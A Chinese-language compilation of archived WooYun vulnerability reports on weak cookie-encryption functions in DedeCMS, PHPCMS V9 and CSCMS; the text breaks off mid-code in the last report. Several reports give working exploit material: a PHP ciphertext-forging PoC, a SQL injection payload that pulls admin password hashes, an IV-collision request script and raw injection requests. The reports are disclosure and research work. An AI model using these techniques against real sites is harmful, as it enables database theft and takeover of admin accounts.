# 0x06 加密函数问题。

* * *

这种问题主要是想进各种办法把这些加密函数的 key 拿到 或者想办法加密一些特殊字符然后拿到加密的字符串

加密函数肯定就涉及到了各种算法。

## 加密可逆

* * *

算法问题一般主要是因为一些弱算法 导致了 知道明文 知道密文 可逆

拿到加密函数中的 key 从而再自己生成一个自己想要的加密字符串。

再结合具体的点 然后进行具体的利用。

例子: [WooYun: DedeCMS-V5.7-SP1(2014-07-25)sql 注入+新绕过思路](http://www.wooyun.org/bugs/wooyun-2014-071655) 例子: [WooYun: phpcms 最新版绕过全局防御暴力注入（官网演示）](http://www.wooyun.org/bugs/wooyun-2014-066138)

## 加密可控

* * *

还有的一类算是 一个点 要加密的是我们可控的 而且密文会输出 而且这个可控的点能引入特殊字符 那么我们就把一些特殊字符带入到这里面 然后拿到密文 再找到一处 decode 后会进行特殊操作的点 然后进行各种操作。

例子: [WooYun: 程氏舞曲 CMS 某泄露，导致 sql 注入](http://www.wooyun.org/bugs/wooyun-2014-080370)

例子: [WooYun: PHPCMS 最新版(V9)SQL 注入一枚](http://www.wooyun.org/bugs/wooyun-2013-024984)

## key 泄漏

例子: [WooYun: 一个 PHPWIND 可拿 shell 的高危漏洞](http://www.wooyun.org/bugs/wooyun-2014-072727)

例子: [WooYun: PHPCMS V9 一个为所欲为的漏洞](http://www.wooyun.org/bugs/wooyun-2014-066394)

# WooYun-2014-71655：DedeCMS-V5.7-SP1(2014-07-25)sql 注入+新绕过思路

漏洞作者： [roker](http://www.wooyun.org/whitehats/roker)

来源：[`www.wooyun.org/bugs/wooyun-2014-071655`](http://www.wooyun.org/bugs/wooyun-2014-071655)

## 简要描述

rt................好紧张。。

## 详细说明

让我们来看看这个文件

/include/shopcar.class.php

提取关键加解密函数代码

```php
function enCrypt($txt)

    {

        srand((double)microtime() * 1000000);

        $encrypt_key = md5(rand(0, 32000));

        $ctr = 0;

        $tmp = '';

        for($i = 0; $i < strlen($txt); $i++)

        {

            $ctr = $ctr == strlen($encrypt_key) ? 0 : $ctr;

            $tmp .= $encrypt_key[$ctr].($txt[$i] ^ $encrypt_key[$ctr++]);

        }

        return base64_encode($this->setKey($tmp));

    }

    //解密接口字符串

    function deCrypt($txt)

    {

        $txt = $this->setKey(base64_decode($txt));

        $tmp = '';

        for ($i = 0; $i < strlen($txt); $i++)

        {

            $tmp .= $txt[$i] ^ $txt[++$i];

        }

        return $tmp;

    }

    //处理加密数据

    function setKey($txt)

    {

        global $cfg_cookie_encode;

        $encrypt_key = md5(strtolower($cfg_cookie_encode));

        $ctr = 0;

        $tmp = '';

        for($i = 0; $i < strlen($txt); $i++)

        {

            $ctr = $ctr == strlen($encrypt_key) ? 0 : $ctr;

            $tmp .= $txt[$i] ^ $encrypt_key[$ctr++];

        }

        return $tmp;

    }

    //串行化数组

    function enCode($array)

    {

        $arrayenc = array();

        foreach($array as $key => $val)

        {

            $arrayenc[] = $key.'='.urlencode($val);

        }

        return implode('&', $arrayenc);

    }

    //创建加密的 _cookie

    function saveCookie($key,$value)

    {

        if(is_array($value))

        {

            $value = $this->enCrypt($this->enCode($value));

        }

        else

        {

            $value = $this->enCrypt($value);

        }

        setcookie($key,$value,time()+36000,'/');

    }

    //获得解密的 _cookie

    function getCookie($key)

    {

        if(isset($_COOKIE[$key]) && !empty($_COOKIE[$key]))

        {

            return $this->deCrypt($_COOKIE[$key]);

        }

    }

} 
```

是不是感觉很熟悉？看这里-->[`**.**.**.**/bugs/wooyun-2014-062391`](http://**.**.**.**/bugs/wooyun-2014-062391)

一样的算法，只不过将 microtime 替换成了 md5(rand(0, 32000)),按照 海贼牛的方法的话，我们需要暴力 穷举 32³⁶ 次，这数太大，我不敢算，我们真的需要暴力破解么？？

直接来看看 解密函数吧。

```php
function deCrypt($txt)

    {

        $txt = $this->setKey(base64_decode($txt));

        $tmp = '';

        for ($i = 0; $i < strlen($txt); $i++)

        {

            $tmp .= $txt[$i] ^ $txt[++$i];

        }

        return $tmp;

    }

    //处理加密数据

    function setKey($txt)

    {

        global $cfg_cookie_encode;

        $encrypt_key = md5(strtolower($cfg_cookie_encode));

        $ctr = 0;

        $tmp = '';

        for($i = 0; $i < strlen($txt); $i++)

        {

            $ctr = $ctr == strlen($encrypt_key) ? 0 : $ctr;

            $tmp .= $txt[$i] ^ $encrypt_key[$ctr++];

        }

        return $tmp;

    } 
```

现在 我们假设 密文为 ABCDEF....（base_decode 后的） 。通过上述代码 可以发现 解密函数中 参与 运算的是 key 的 MD5 值。我们假定为 K1 k2 k3 k4 k5 k6........k32.

首先带入 setKey 函数，

```php
A^K1 ->M1 

B^K2 ->M2 

C^K3 ->M3 

D^K4 ->M4 
```

然后将 M1~6 带入 decrypt 后的操作。

```php
M2^M1 ->a 

M4^M3 ->b 

M6^M5 ->c 
```

abc 即为 我们的明文

对于异或算法 我们知道 它有以下特性

```php
H^I = J  ->  H^J=I

(H^I)^J=H^I^J 
```

密文 A B 与明文 a 所对应的的关系为。

```php
A^K1 = M1  M1^M2 = a   B^K2 = M2 
```

联立得（尼玛像是在做奥数。。） A^K1^B^K2 =a 即 A^B^a = K1^K2，同理可得到 C^D^b = K3^K4 E^F^c=K5^K6

k1~32 是 密匙 k 的 32 位 md5 值，是固定不变的。

那么 得到如下 如下关系： 任何密文的 i ，i+1 位 与其所对应的的 明文的 i 位 做异或运算(i 为偶数) 结果是一个固定不变的值（Ki^Ki+1）

so，我们只需要一个已知明文的密文就可以 构造任意密文了。

poc 如下，

```php
function dede_cracked($Expressly,$Ciphertext,$str,$way){

$Ciphertext = base64_decode($Ciphertext);

if ($way=="descrypt"){

$text2="";

$str=base64_decode($str);

}else{

$text2="a";

}

$j=0;

$s=0;

for($i=0;$i<strlen($str);$i++,$s++){

if($j==32){$j=0;$s=0;}

$tmp=$Ciphertext[$j]^$Ciphertext[$j+1];

$tmp=$tmp^$Expressly[$s];

$tmp=$tmp^$str[$i];

if ($way=="descrypt"){

$text1=$tmp^$str[++$i];

}

else{

$text1=$tmp^$text2;

}

$xxoo =$xxoo.$text2.$text1;

$j=$j+2;

}

if ($way=="descrypt"){

echo $xxoo;}

else{

echo base64_encode($xxoo);}

} 
```

在 plus/carbuyaction.php

```php
foreach($Items as $key=>$val)

                {

                    $val['price'] = str_replace(",","",$val['price']);

                    $dsql->ExecuteNoneQuery("INSERT INTO `#@__shops_products` (`aid`,`oid`,`userid`,`title`,`price`,`buynum`)

                    VALUES ('$val[id]','$OrdersId','$userid','$val[title]','$val[price]','$val[buynum]');");

                } 
```

将解密后的数据带入了数据库。

本以为到这里就结束了，然而，dede 自带的防护 sql 注入的函数做了更新，以前的@，char 都不能用了。

想了很久终于想到了办法，

我们可以用双引号来包裹 ' 再用逗号分隔 两个相连的 ''。

```php
看到函数里的这段代码你就知道为什么我要这么做了。。直接看我的下面的 sql 语句可能会更形象~

if (strpos($clean, '@') !== FALSE  OR strpos($clean,'char(')!== FALSE 

        OR strpos($clean,'$s$$s$')!== FALSE) 
```

首先，注册用户，将一个商品加入购物车，来到 plus/car.php 页面，此时查看 cookie



Shop_De 开头的和 DedeUserID 就是我们所需要的~

调用 poc 里的函数

得到 最终 playload

```php
dede_cracked("id=108&price=11&units=&buynum=1&title=aa","AWgGMlFrAzNUMAFqWyYBdFV0UmgHNFI3Vm0BMwUwBC4AdQc5CmRVIAcgBWtfNVBzATBVcwApAW8FdlE%2FWWBVaAEnBiJRPwN2VGwBN1s9AWVVZw==","id=',\"'&title=\" or ',','8',(SELECT concat(uname,0x23,pwd) FROM dede_admin LIMIT 1),',','1')#","encrypt"); 
```

修改 cookie，提交订单

可以看到 mysql 的执行日志

```php
INSERT INTO `dede_shops_products` (`aid`,`oid`,`userid`,`title`,`price`,`buynum`)

                    VALUES ('',"'','wooyuni','8','" or ',','8',(SELECT concat(uname,0x23,pwd) FROM dede_admin LIMIT 1),',','1')#','0.00','0') 
```

查看商品，ok，数据出来了~



## 修复方案

你们更专业~~

# WooYun-2014-66138：phpcms 最新版绕过全局防御暴力注入（官网演示）

漏洞作者： [索马里的海贼](http://www.wooyun.org/whitehats/索马里的海贼)

来源：[`www.wooyun.org/bugs/wooyun-2014-066138`](http://www.wooyun.org/bugs/wooyun-2014-066138)

## 简要描述

加解密函数缺陷第三发，注入演示 版本 20140522 无视全局防御 搬个沙发吧。。这个比 destoon 那个要麻烦多了。。。

## 详细说明

先从函数说起

phpcms/libs/functions/global.func.php 行 335

```php
function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0) {

    $key_length = 4;

    $key = md5($key != '' ? $key : pc_base::load_config('system', 'auth_key'));

    $fixedkey = md5($key); //keya 用于加解密

    $egiskeys = md5(substr($fixedkey, 16, 16)); //keyb 用于数据完整性校验

    $runtokey = $key_length ? ($operation == 'ENCODE' ? substr(md5(microtime(true)), -$key_length) : substr($string, 0, $key_length)) : ''; //keyc（初始化向量 iv）

    $keys = md5(substr($runtokey, 0, 16) . substr($fixedkey, 0, 16) . substr($runtokey, 16) . substr($fixedkey, 16));//由 keya 和 heyc 组合而成 直接参与运算，这里叫 keyd 吧

    $string = $operation == 'ENCODE' ? sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$egiskeys), 0, 16) . $string : base64_decode(substr($string, $key_length));

    $i = 0; $result = '';

    $string_length = strlen($string);

    for ($i = 0; $i < $string_length; $i++){

        $result .= chr(ord($string{$i}) ^ ord($keys{$i % 32})); //简化了 dz 的函数 直接用 keyd 和文本做异或

    }

    if($operation == 'ENCODE') {

        return $runtokey . str_replace('=', '', base64_encode($result));

    } else {

        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$egiskeys), 0, 16)) {

            return substr($result, 26);

        } else {

            return '';

        }

    }

} 
```

这里用的其实是简化版的经典加密函数 auth_code 由 DZ 开始广泛用于各类 cms

这里去掉了密钥簿的生成和转换 直接用 kaya 和 keyc 组合 md5 之后的值 keyd 作为密钥簿然后与原始文本处理后的数据进行异或。

讲加密过程有点绕，我也没有刺总的口才能把这个函数说那么细，反正这里知道一点就够了

如果知道原始文本和加密后的文本，而且原始文本的长度够长（准确说是明文内容的长度大于 32*2-10-16=38 位），是可以逆推出 keyd 的。

在这个函数中，keyc 就是 IV（初始化向量）， ckey_length 就是 IV 的长度:4。keyc 影响到每次加密的 xor key（也就是 keyd）。这里先说这么多，先来看看 phpcms 的问题

/phpcms/modules/memeber/index.php 行 176

```php
if($member_setting['enablemailcheck']) {

    pc_base::load_sys_func('mail');

    $phpcms_auth_key = md5(pc_base::load_config('system', 'auth_key'));

    $code = sys_auth($userid.'|'.$phpcms_auth_key, 'ENCODE', $phpcms_auth_key);

    $url = APP_PATH."index.php?m=member&c=index&a=register&code=$code&verify=1"; 
```

在注册过程中 如果后台配置了需要邮件认证，那么就会进入这个 if 生成一串校验值发往注册的邮箱。

```php
$phpcms_auth_key = md5(pc_base::load_config('system', 'auth_key')); 
```

这个 auth_key 其实就是核心加密 key，这里居然把 md5 后的核心 key 作为参数的一部分写入激活链接发到用户邮箱了。如果能够解开激活链接中的这个 code 值，我们就可以得到加密 key 从而任意生成加密串了。参数$code 生成方式为

```php
sys_auth($userid.'|'.$phpcms_auth_key, 'ENCODE', $phpcms_auth_key); 
```

sys_auth()用的密钥为 md5('auth_key');

收到邮件中的链接如下



code 值为 d104CAgCBwZUAVYFVVIBAAVVVwldAAYEXQoNUQAKSFECWgAIAApUUlZUUQJTUlZRAA9UAQFRDABWX10FVVtV

前 4 位为 keyc 这里是"d104"

如果我们能找到另外一处明文和密文都可知 且可以多次用同一明文获取密文的位置 就能通过遍历找出相同的 keyc，当 keyc 相同时 xor key 也相同，所以我们就能用前面说方法逆推出 keyd 来解密出 code 的内容。

首先是找到一处同样用 md5(pc_base::load_config('system', 'auth_key'))作为密钥，且我们可以同时知道明文和密文的地方。

/phpcms/modules/content/down.php 行 76

```php
if(strpos($f, 'http://') !== FALSE || strpos($f, 'ftp://') !== FALSE || strpos($f, '://') === FALSE) {

    $pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT']);

    $a_k = urlencode(sys_auth("i=$i&d=$d&s=$s&t=".SYS_TIME."&ip=".ip()."&m=".$m."&f=$f&modelid=".$modelid, 'ENCODE', $pc_auth_key));

    $downurl = '?m=content&c=down&a=download&a_k='.$a_k;

} else {

    $downurl = $f;            

} 
```

当我们把 user-agent 置空的时候

$pc_auth_key 正好就是我们需要的

```php
md5(pc_base::load_config('system','auth_key').""); 
```

加密的字符串为

```php
"i=$i&d=$d&s=$s&t=".SYS_TIME."&ip=".ip()."&m=".$m."&f=$f&modelid=".$modelid 
```

$i 就是下载的 id 从页面可以获得$d 是 downloadtype 一般是 1 $s 空 $t 是时间。可以从 http 头获取到$ip 可知 $m 为 1 $f 是下载文件的 url 这里长度肯定超过 38 了。

先来获取邮件中的 code，为了增加碰撞的概率 这里用多个邮箱多次获取了激活链接并收集激活链接中参数 code 的前 4 位（IV）记录下来。







先来写一个小脚本来碰撞 IV

```php
<?php

$url = "http://**.**.**.**/index.php?m=content&c=down&a_k=f7c8BFEHCVEIBVYGVQJYB1ADXFNSAAxRAgcHDw5eDlMCR0oJR1oEUB5TW14RFREMHB9cWhRdWQ4CBRxHUEdQC0BPWlpOQQBOARtTGRUJEVVeQ2dDWh0AT1U%2BZ2N%2BDx0cWhEfUFwHHwxXUQNaDAVcBRVTWUEKVwhQWg";

$reg = '#a_k=(.*?)\"#';

$code  = array('7763','2bc5','8706','81b7','30a9','49e7','8731','9c2e','d007');

$i=0;

for(;;){

    $data = doGet($url);

    preg_match_all($reg, $data, $urls);    

    if (in_array(substr($urls[1][0],0,4), $code)){

        die($urls[1][0]);

    }

    $i++;

    echo $i."--".substr($urls[1][0],0,4)."\n";

}

function doGet($url,$cookie=''){

    $ch = curl_init(); 

    curl_setopt($ch, CURLOPT_URL, $url);

    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);

    $response = curl_exec($ch);

    curl_close($ch);

    return $response;

}

?> 
```

简单说一下脚本

第一段地址来自[`**.**.**.**/index.php?m=content&c=index&a=show&catid=19&id=51 中的下载链接`](http://**.**.**.**/index.php?m=content&c=index&a=show&catid=19&id=51 中的下载链接)

code 来自上一步的收集

脚本会不停请求页面并收集下载链接，当 iv 碰撞成功时停止脚本并输出原始下载链接

运气不错，1000 多次请求就碰撞成功了



7763VFRVVlMAVQEJB1MGAgYFUwIPVlQDBlcEB1ALCgVVRFRZVEMVXhYRDAgDAFBVBAdUDQESCEIKV1dXHVMPA0pTBVZKVFdUFggMCBFWXgtCRhMPGBsFXUAICg1SBhlADBJTCRdLBQ0fEwgWDh5WTEZaE1ZaRz5EDkhTTAU9YmQiWh4eDRVADl8BVFVeVF5Q

去掉前面的 IV 7763 填入 exp 中来计算 keyb



注意图中的 key 前面有 10 位的 0 和 16 位的 1 正常流程中 前 10 位是时间戳后面 16 位是数据完整性校验的 MD5，这里我们没法知道 所以用 0 和 1 来填充，因为是按位异或的所以前面有点错没关系。只要后面可以确认的数据段足够长 就能还原出正确的 keyd

如图跑完后得到的数据为

```php
ddefc0e197b7374b3>ge27f56ab70db0deefc0e1970cc61f?74a27ffb3b70db0ddefc0e1970cc62c574a27ffb3b70db0ddefc0e1970cc62c574a27ffb3b70db0dde 
```

按 32 位长度分段得到

```php
ddefc0e197b7374b3>ge27f56ab70db0

deefc0e1970cc61f?74a27ffb3b70db0

ddefc0e1970cc62c574a27ffb3b70db0

ddefc0e1970cc62c574a27ffb3b70db0

dde 
```

可以看到前面两段都有点不一样 后面两段就相同了 因为后面两段是明确的明文。

到这里已经拿到了 IV 是 7763 时的 keyd:ddefc0e1970cc62c574a27ffb3b70db0

我们来拿这个 keyd 解密一下邮箱中的激活链接试试

找到 7763 开头的激活链接



去掉开头 4 位 IV 将绿色部分写入 exp

keyd 为上一步获得的 ddefc0e1970cc62c574a27ffb3b70db0



成功解开了，这里|后面的就是我们朝思暮想的

md5(pc_base::load_config('system','auth_key'))了

## 漏洞证明

拿到这个 key 之后就能干很多事了。这里以一个简单的注入来证明一下

/api/add_favorite.php 行 26

```php
$phpcms_auth = param::get_cookie('auth');

if($phpcms_auth) {

    $auth_key = md5(pc_base::load_config('system', 'auth_key').$_SERVER['HTTP_USER_AGENT']);

    list($userid, $password) = explode("\t", sys_auth($phpcms_auth, 'DECODE', $auth_key));

    if($userid >0) {

    } else {

        exit(trim_script($_GET['callback']).'('.json_encode(array('status'=>-1)).')');

    } 

} else {

    exit(trim_script($_GET['callback']).'('.json_encode(array('status'=>-1)).')');

}

$favorite_db = pc_base::load_model('favorite_model');

$data = array('title'=>$title, 'url'=>$url, 'adddate'=>SYS_TIME, 'userid'=>$userid);

//根据 url 判断是否已经收藏过。

$is_exists = $favorite_db->get_one(array('url'=>$url, 'userid'=>$userid)); 
```

userid 来自 cookie cookie 是加密过的 所以无视 GPC 无视任何防御

使用上一步得到的 key 来生成 exp



将生成的验证串填入 cookie xxxx_auth 中并访问

[`**.**.**.**/api.php?op=add_favorite&title=asdf&url=asdf`](http://**.**.**.**/api.php?op=add_favorite&title=asdf&url=asdf)

页面直接返回错误信息爆出版本号



## 修复方案

你们比我专业

# WooYun-2014-80370：程氏舞曲 CMS 某泄露，导致 sql 注入

漏洞作者： [路人甲](http://www.wooyun.org/whitehats/路人甲)

来源：[`www.wooyun.org/bugs/wooyun-2014-080370`](http://www.wooyun.org/bugs/wooyun-2014-080370)

## 简要描述

程氏舞曲 CMS 某泄露，导致严重问题

## 详细说明

这个厂商非常给力，作为白帽子，也非常乐意～！

cookie 加密后的字符泄漏。可以替换其他字段，导致 SQL 等，严重漏洞。

文件：C:\WWW\cscms_v3.5_utf8\app\controllers\open.php

```php
//第三方登入入口

    public function login()

    {

              if(CS_Appmode==2) exit($this->CsdjSkins->Msg_url('第三方登入已经关闭！',Web_Path));

              $urldata['log_fhurl']=$_SERVER['HTTP_REFERER'];//泄漏点

              $urldata['log_state']=md5(uniqid(rand(), TRUE)); //CSRF protection;

              $this->session->set_userdata($urldata);

              $ac = $this->security->xss_clean($this->uri->segment(3));   //方式

              $log_url="http://**.**.**.**/denglu?ac=".$ac."&appid=".CS_Appid."&redirect_uri=".site_url("open/callback")."&state=".$urldata['log_state']."&getdate=".time();

              header("Location: $log_url"); 

    } 
```

我们提交如下，看一下，程序加密后的字符。

```php
GET /cscms_v3.5_utf8/index.php/open/login/qq HTTP/1.1

Host: **.**.**.**

User-Agent: Mozilla/5.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en

Accept-Encoding: gzip,deflate

Accept-Charset: GB2312,utf-8;q=0.7,*;q=0.7

Keep-Alive: 115

Connection: keep-alive

Referer: xxoo' 
```



可以看到加密后的字符：log_fhurl=L8kxDzdqKNy9%2F2Qs0g

利用这个功能，加密我们想要的任意代码。

替换其他地方就构成注入。

```php
GET /cscms_v3.5_utf8/index.php/user/ulog/index/user HTTP/1.1

Host: **.**.**.**

User-Agent: Mozilla/5.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en

Accept-Encoding: gzip,deflate

Accept-Charset: GB2312,utf-8;q=0.7,*;q=0.7

Keep-Alive: 115

Connection: keep-alive

Referer: http://**.**.**.**/cscms_v3.5_utf8/index.php/user/

Cookie: cs_id=L8kxDzdqKNy9%2F2Qs0g 
```



## 漏洞证明



## 修复方案

方案 1：加密过程加入字段的判断，使得不能替换使用

方案 2：调用 cookie 的后，在 addslashes 一下。

或者有其他办法，共同进步。

# WooYun-2013-24984：PHPCMS 最新版(V9)SQL 注入一枚

漏洞作者： [blue](http://www.wooyun.org/whitehats/blue)

来源：[`www.wooyun.org/bugs/wooyun-2013-024984`](http://www.wooyun.org/bugs/wooyun-2013-024984)

## 简要描述

比较有意思的一个 SQL 注入点，代码分析是个体力活，唿～

## 详细说明

存在于在线充值功能，直接上代码分析，建议先看漏洞证明：

```php
/phpcms/phpcms/modules/pay/deposit.php 96 行起的 pay_recharge 方法

...

$trade_sn    = param::get_cookie('trade_sn'); //约 110 行位置，如果可以控制$trade_sn，即可注入，事实自然是可以的

            $usernote = $_POST['info']['usernote'] ? $_POST['info']['name'].'['.$trade_sn.']'.'-'.new_html_special_chars(trim($_POST['info']['usernote'])) : $_POST['info']['name'].'['.$trade_sn.']';

            $surplus = array(

                    'userid'      => $this->_userid,

                    'username'    => $this->_username,

                    'money'       => trim(floatval($_POST['info']['price'])),

                    'quantity'    => $_POST['quantity'] ? trim(intval($_POST['quantity'])) : 1,

                    'telephone'   => preg_match('/[0-9\-]+/', $_POST['info']['telephone']) ? trim($_POST['info']['telephone']) : '',

                    'contactname' => $_POST['info']['name'] ? trim($_POST['info']['name']).L('recharge') : $this->_username.L('recharge'),

                    'email'       => is_email($_POST['info']['email']) ? trim($_POST['info']['email']) : '',

                    'addtime'      => SYS_TIME,

                    'ip'          => ip(),

                    'pay_type'      => 'recharge',

                    'pay_id'      => $payment['pay_id'],        

                    'payment'     => trim($payment['pay_name']),

                    'ispay'          => '1',

                    'usernote'    => $usernote,

                    'trade_sn'      => $trade_sn,

            );

            $recordid = $this->handle->set_record($surplus); //直到这里，也没有对$trade_sn 进行处理吧？接下来看 set_record 方法

/phpcms/phpcms/modules/pay/classes/pay_deposit.class.php 12 行起

    /**

     * 生成流水记录

     * @param unknown_type 

     */

    public function set_record($data){

        $require_items = array('userid','username','email','contactname','telephone','trade_sn','money','quantity','addtime','paytime','usernote','usernote','pay_type','pay_id','payment','ip','status');

        if(is_array($data)) {

            foreach($data as $key=>$item) {

                if(in_array($key,$require_items)) $info[$key] = $item;

            }            

        } else {

            return false;

        }

        $trade_exist = $this->account_db->get_one(array('trade_sn'=>$info['trade_sn']));  //这里

        if($trade_exist) return $trade_exist['id'];

        $this->account_db->insert($info); //还有这里

        return $this->account_db->insert_id();

    } 
```

好了，关键是控制$trade_sn 的值，看 param::get_cookie 和 param::set_cookie 方法

```php
/phpcms/phpcms/libs/classes/param.class.php

    public static function set_cookie($var, $value = '', $time = 0) {

